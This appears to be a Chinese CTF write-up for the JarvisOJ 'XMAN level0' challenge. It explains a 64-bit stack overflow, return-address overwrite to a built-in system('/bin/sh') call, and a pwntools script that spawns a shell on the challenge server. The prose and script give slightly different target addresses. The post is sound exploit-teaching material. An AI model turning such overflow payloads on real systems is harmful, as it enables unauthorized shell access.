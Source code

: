 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel0题解
date: 2018-08-08 13:10:00
author:     "许大仙"
tags:
    - CTF
---
```


day6 for XMAN level0

## 一、解题思路 ##

果然level0就是要比level4简单啊。当然level0毕竟是64位的。

checksec level0查看到栈不可执行，但是NO PIE，无金丝雀值[为栈溢出攻击提供客观条件]。

![checksec level0](/assets/img/checksec0.jpg)

通过ida64反汇编发现string view中有“/bin/sh”且函数列表中有“system”函数，想办法调用！就可以获得shell了.[注意64位的可执行文件是不能用IDA32反汇编的，要用64位的才可以]

![“/bin/sh”字符串+“system”函数](/assets/img/sys_bin.jpg)

### 1、缓冲区大小 ###

![level0-main反汇编结果](/assets/img/level0.jpg)

![栈溢出漏洞](/assets/img/attack0.jpg)

对于read(0,rbp-0x80,0x200),read可读取并放入**0x80大小的缓冲区**的字符串可以有0x200字节。因此可以覆盖掉返回地址等栈区域。存在栈溢出攻击。

我们只需要在退栈的时候，将system函数首地址【因为system函数位于libc库，不是静态地址不变,要write+system_GOT[ELF-GOT可得]才可以动态得到system地址，但是level0应该不会那么难的；或者可以通过PLT表得到system_plt来调用system函数=elf.plt['system'],这也就是ELF-symbols获得，因为此时符号表中存储的是system_plt】布置在返回地址处就可以了！

但是**64位机器下"/bin/sh"作为system的参数，却不像32位系统下布置在%ebp+8的位置，而是放在%edi中**。所以不能将“/bin/sh”的首地址，覆盖%ebp+8来调用system("/bin/sh")。 

**注：**在64位机器上参数的传递，前6个参数[从左向右数前6个]分别保存在rdi,rsi,rdx,rcx,r8和r9寄存器中,但是从第七个参数开始就要从右向左入栈[最后一个参数先入栈，最后入栈第7个参数]

现在有几种类似的方案：

1. ret跳转到pop %edi+ret[这个ret调用了system函数，"/bin/sh"首地址放置在栈帧中，由pop放置到%edi处]
2. ret跳转到pop %xxx + mov %xxx,%edi + ret
3. ret跳转到mov "/bin/sh"首地址,%edi +ret
4. ……

总之就是先让%edi放置好“/bin/sh”的首地址，再跳转/返回到/调用system函数去执行。

### 2.system的参数布置  ###

(1)先去找找pop指令和ret指令

![pop指令](/assets/img/pop0.jpg)

没有pop %edi，失落。但是有**%rsi,%rbp,%rbx,%r12,%r13,%r14,%r15**。现在考虑看下mov %xxx,%edi。[%xxx可以在有pop指令的寄存器中选择，前面加粗的即是]

![mov指令](/assets/img/mov0.jpg)

乍一看，好失落，怎么只有一个寄存器%r15能转存到%rdi寄存器。而且这条mov %r15d,%edi指令[设置%rdi和设置%edi是一样的，因为/bin/sh的地址高4字节都为0]还不是和pop %r15连着的。

但是好像看到了熟悉的身影！

前面在ida的strings window里面有/bin/sh的地址：

> .rodata:0000000000400684 00000008 C /bin/sh

这里恰好有一个mov $0x400684,%edi。满足了设置参数，但是看看ret指令，没有和0x40059a地址[bf 84 06 40 00       	mov    $0x400684,%edi]相连的ret指令。

这样看了ret到0x40059a执行mov "/bin/sh"首地址,%edi+ret，也不可行了。

怎么会这么巧，正好mov $0x400684,%edi，设置了/bin/sh呢？

我们去这条指令的地址0x40059a看一下！发现：

![system函数调用](/assets/img/system0.jpg)

函数列表中静态的callsystem函数：

> .text:000000000040059A mov edi, offset command ; "/bin/sh"
> 
> .text:000000000040059F call_system

这一段不就是system参数设置+调用吗！我们只需要将第一次缓冲区溢出后ret到地址0x000000000040059A[由于NO PIE，代码段地址不随机化，这个地址位于代码段[非libc库加入的.text，是静态的.text部分]，所以这个指令的地址固定]，就是可以实现system("/bin/sh")了。

![静态system调用](/assets/img/static_sys.jpg.jpg)

**注：**其实这不是巧合，因为64位机器传参的特殊性，对于6个参数以下的函数估计都会在call前，先将参数mov到对应的寄存器。所以非栈中传参，都可在IDA查看，是否已经在call前的几条指令布置好。【只是可能是system(其他操作)，不一定是system("/bin/sh")】

## 二、解题步骤 ##

直接上脚本，注意：缓冲区大小为0x80，返回地址是8字节，不要再用p32而是p64
	
	#!/usr/bin/python
	from pwn import *
	  
	context(arch="amd64",os="linux")
	re = remote("pwn2.jarvisoj.com", 9881) # set remote server as 're'
	
	junk = 'a' * 0x80 # infillings, including 8B for rbp in stack 
	replace_rbp = 'a' * 0x8 #fill old %ebp
	syscall = 0x0000000000400596 #前面找到的system函数参数设置+调用的地址
	
	payload = junk + replace_rbp + **p64**(syscall)
	
	re.recvline() 
	re.send(payload) # send payload for stuff  
	re.interactive()

![flag](/assets/img/ans0.jpg)